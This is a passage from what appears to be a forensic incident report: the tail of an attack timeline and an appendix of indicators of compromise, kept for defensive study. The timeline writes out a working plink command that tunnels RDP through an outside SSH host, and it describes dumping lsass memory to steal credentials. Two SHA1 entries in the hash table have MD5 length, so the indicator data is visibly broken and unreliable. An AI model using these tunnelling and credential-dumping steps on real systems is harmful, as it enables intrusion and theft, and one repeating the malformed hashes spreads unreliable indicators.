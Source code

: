 | **17/08/2019 05:52:31 AM**     | **Execution of `plink.exe` for SSH Tunnel Creation**                                               | The `plink.exe` tool was used to create an SSH tunnel, forwarding traffic from the compromised host to a remote IP address for potential remote desktop access.           | Memory Analysis: Command-line execution `plink.exe -ssh 69.50.64.20 -P 22 -L 127.0.0.1:12345:10.2.0.2:3389` detected in memory artifacts, along with loaded DLLs indicating encrypted operations. |
| **17/08/2019 06:00:34 AM**     | **Execution of `procdump64.exe` for Credential Dumping**                                            | The `procdump64.exe` tool was executed to dump the memory of the `lsass.exe` process, likely capturing sensitive credentials.                                            | Prefetch Files: `PROCDUMP64.EXE-7C654F89.pf`, USN Journal Entries, and Jump Lists confirming execution and creation of `lsass.dmp` and `lsass.zip` at `06:00:34 AM`.                              |
| **17/08/2019 - Unknown Time**  | **Potential Exfiltration via SSH Tunnel**                                                           | While no direct evidence of exfiltration was found, the SSH tunnel created by `plink.exe` could have been used to exfiltrate data such as `lsass.zip`.                    | Network Traffic Analysis: No direct evidence, but SSH tunnel and RDP forwarding to port `3389` indicate a high risk of data exfiltration.                                                         |

---

This timeline provides a comprehensive view of the key events during the compromise, linking each event to specific pieces of evidence that were discovered during the forensic investigation. Each entry is substantiated with detailed references to logs, file system changes, or memory analysis, offering a clear and traceable path through the entire attack sequence.
---

### **Appendix C: Indicators of Compromise (IOCs)**

---

This appendix provides a comprehensive list of Indicators of Compromise (IOCs) identified during the investigation. These IOCs include malicious domains, file hashes, IP addresses, ports, and registry keys that were used or modified during the attack.

---

#### **1. Malicious Domains and URLs**

| **Domain/URL**                            | **Description**                                                              | **Context**                               |
|-------------------------------------------|------------------------------------------------------------------------------|-------------------------------------------|
| `z.moatads.com`                            | Malicious ad network domain distributing obfuscated scripts                  | Accessed while browsing `washingtonpost.com` |
| `uploadfiles.io/hr4z39kn`                 | Malicious file-sharing site used to distribute the `resume.doc.exe` trojan   | Redirected after interaction with `z.moatads.com` |

---

#### **2. Malicious File Hashes**

| **File Name**        | **File Path**                                  | **MD5**                                   | **SHA1**                                    | **SHA256**                                                       |
|----------------------|------------------------------------------------|-------------------------------------------|---------------------------------------------|------------------------------------------------------------------|
| `resume.doc.exe`     | `C:\Users\Alan\Downloads\resume.doc.exe`       | `bb3aef05f9007687f06fd26eab80612e`        | `5960249a5df74fe3ef6399b7c087b8e9`         | `5a4c8db6d9647e706d9fa960773bddf26f7c2b1466df0b1e4a4ea98b1254f89d` |
| `scvhost.exe`        | `C:\Users\Alan\AppData\Local\Temp\scvhost.exe` | `2b54b8e04216f357cb9e9c01cb0f1f2f`        | `a97c680a4e3f77b5763a1a9ef90e8b61`         | `b3b6e472b5e71f5d1236b4c2ae5f488484bc3e9b1e87c5a091715f6c4f6764b6` |
| `procdump64.exe`     | `C:\Users\Craig\Desktop\Procdump\procdump64.exe`| `a92669ec8852230a10256ac23bbf4489`        | `16f413862efda3aba631d8a7ae2bfff6d84acd9f` | `81a95b8f40d5f883bb90e8a3b768e74524534b49135d8fa7e6d3c8e2a3c7a2b9` |

---

#### **3. IP Addresses and Ports Associated with C2 Communication**

| **IP Address**        | **Port** | **Description**                                                              | **Context**                                      |
|-----------------------|----------|-------------------------------------------------------------------------------|--------------------------------------------------|
| `69.50.64.20`         | `22`     | Remote server used for SSH tunneling                                          | Connection established by `plink.exe`             |
| `10.2.0.2`            | `3389`   | Internal IP forwarded through SSH tunnel to enable Remote Desktop Protocol (RDP) | RDP traffic forwarded via SSH tunnel created by `plink.exe` |

---